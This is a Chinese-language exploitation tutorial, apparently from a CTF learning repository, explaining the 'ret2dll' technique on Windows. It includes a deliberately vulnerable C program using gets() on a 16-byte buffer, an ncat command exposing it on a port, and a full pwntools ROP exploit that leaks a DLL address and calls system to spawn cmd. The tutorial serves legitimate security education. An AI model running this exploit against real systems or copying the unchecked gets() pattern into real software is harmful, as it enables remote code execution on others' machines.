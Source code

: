 # ret2dll利用

原理與linux下的ret2libc類似，不過需要手動提取地址，目前pwntools不能提取exe文件地址。
源代碼如下
```
#include <stdio.h>
#include <ctype.h>
#define DEFAULT_LEN 16
int val(){
        char buff[DEFAULT_LEN] = {0};
        gets(buff);
}
int main(void)
{
        puts("start");
        fflush(stdout);
        val();
        fflush(stdout);
        puts("end");
        fflush(stdout);
}
```
使用gcc(MinGW-W64 x86_64-ucrt-posix-seh)在windows下編譯

`gcc "-Wl,--disable-reloc" -g -o ret2dll.exe ret2dll.c`


## 搭建臨時環境

使用ncat
`ncat -l 8080 --keep-open --exec ".\ret2dll.exe"`
使用win_server
win_server ./ret2dll.exe 8080

exp如下
```
from pwn import *

context.log_level='debug'
context.arch='amd64'
p=remote("192.168.0.190",8080)#這裏替換爲windows的ip
main_addr=0x14000155B#手動輸入地址
ret_addr=0x1400015D7
puts_plt=0x140002868
puts_got=0x14000829C
rdi_addr=0x140002447
rcx_addr=0x140002750
#bp 0x140001554


payload  = b'a' * (0x10 +8)
payload += p64(rcx_addr)
payload += p64(puts_got)
payload += p64(puts_plt)

payload += p64(main_addr)
p.recvuntil("start")
p.sendline(payload)
puts_leak=u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00'))

print("leak addr:",hex(puts_leak))

puts_dll=0x11014E470
cmd_dll=0x0110179E48
sytem_dll=0x0110117E50

dll_base=puts_leak-puts_dll
# dll_base=0x7ffe71e00000
print("base addr:",hex(dll_base))

cmd_addr = dll_base +cmd_dll
system_addr=dll_base+sytem_dll
print("start attck")
payload  = b'a' * (0x10 + 8)
payload += p64(ret_addr)
payload += p64(rcx_addr)
payload += p64(cmd_addr)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

效果如下

![ret2dll](./figure/ret2dll-1.png)